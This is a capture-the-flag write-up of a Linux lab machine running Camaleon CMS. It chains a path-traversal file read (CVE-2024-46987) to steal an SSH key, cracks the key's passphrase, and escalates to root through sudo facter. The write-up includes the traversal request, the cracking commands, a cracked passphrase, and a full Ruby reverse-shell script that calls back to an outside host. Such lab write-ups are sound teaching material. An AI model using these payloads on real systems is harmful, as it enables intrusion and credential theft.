---
tags:
  - Linux
  - Easy
  - WebApp
  - LFI
  - ssh2john
  - facter
  - sudo
  - Directory_Busting
  - Camaleon
---


## User

### Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have two ports open: HTTP and SSH

```
# Nmap 7.95 scan initiated Sat Jan 31 22:21:41 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/facts 10.129.16.153
Nmap scan report for 10.129.16.153
Host is up, received echo-reply ttl 63 (0.052s latency).
Scanned at 2026-01-31 22:21:43 GMT for 9s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNYjzL0v+zbXt5Zvuhd63ZMVGK/8TRBsYpIitcmtFPexgvOxbFiv6VCm9ZzRBGKf0uoNaj69WYzveCNEWxdQUww=
|   256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPCNb2NXAGnDBofpLTCGLMyF/N6Xe5LIri/onyTBifIK
80/tcp open  http    syn-ack ttl 63 nginx 1.26.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 31 22:21:52 2026 -- 1 IP address (1 host up) scanned in 10.22 seconds
```

### Creating an Account

In our `nmap` scan, we see it trying to redirect to `http://facts.htb`, so we add it to our `/etc/hosts` file. On the web app, it seems to be just a generic trivia facts site.


Nothing is too interesting when clicking around, so I decided to run a dirbust in case there were any interesting endpoints. I checked and `/index.php` is valid, so I added `-x` to add `php` as an extension.

`gobuster dir -u http://facts.htb -w ~/git/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o goMain`

In our results, we get `admin.php` as a hit. A login form is presented to us, but it also appears that we can register for an account.







Using our new account, we can log in and get to the admin page.



### Abusing Camaleon CMS with CVE-2024-46987 for LFI

At the very bottom of the web page, we can see that the web app is `Camaleon CMS` on version `2.9.0`.



After a bit of research, it seems this version of `Camaleon CMS` has an LFI vulnerability on [CVE-2024-46987](https://rubysec.com/advisories/CVE-2024-46987/). The page says that versions passed `2.8.0` are patched, but for whatever reason, it still works. I copied the `/admin/media/download_private_file?file=../../../../../../etc/passwd` part of the PoC at the bottom of the page and intercepted it with `BurpSuite`. Sure enough, we get a hit.



Looking in `/etc/passwd`, we see that there is a `trivia` user and a `william` user.



Let's look in `/home/trivia/.ssh/authorized_keys` to see if `trivia` has any SSH keys. In the response, we see one `EdDSA` key defined.



Sometimes there is an `id_rsa` key in `.ssh`, but when trying to get it, we get no response. In trying `id_ed25519`, however, we get a key back.



### Cracking the Key and Becoming Trivia

I copied the key contents into `trivia.key` and tried to log in with it using `ssh`, but I got blocked by a passphrase.



We can use `ssh2john` to convert this key into a crackable format.

`ssh2john trivia.key > trivia.hash`.

Then, we can use `john` to crack the hash.

`john trivia.hash --wordlist=/home/kali/Documents/rockyou.txt`

The results reveal a passphrase of `dragonballz`.



With it, we can now log in and get `user.txt` in `/home/william`.



## Root

### Abusing Facter to Become Root

As part of normal enumeration, I ran `sudo -l` to see what I could run as `root`. In the results, it seems we can run some kind of binary `facter` as `root`.



Looking on [GTFOBins](https://gtfobins.org/gtfobins/facter/), it seems we can escalate to `root` by specifying the `--custom-dir` flag. By setting this flag, the first `.rb` file in the specified directory will be executed. To start, I created a reverse shell `shell.rb` and sent it to the box on `/dev/shm`.

<u>shell.rb</u>

```
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 9001

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 9001, '10.10.14.53'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```



Then, I set up a listener on port `9001` and ran the following command to pop a `root` shell, getting us the `root.txt` flag.



## Credential List

| Username | Password    | Description                         |
| -------- | ----------- | ----------------------------------- |
| trivia   | dragonballz | Passphrase for `id_ed25519` SSH key |
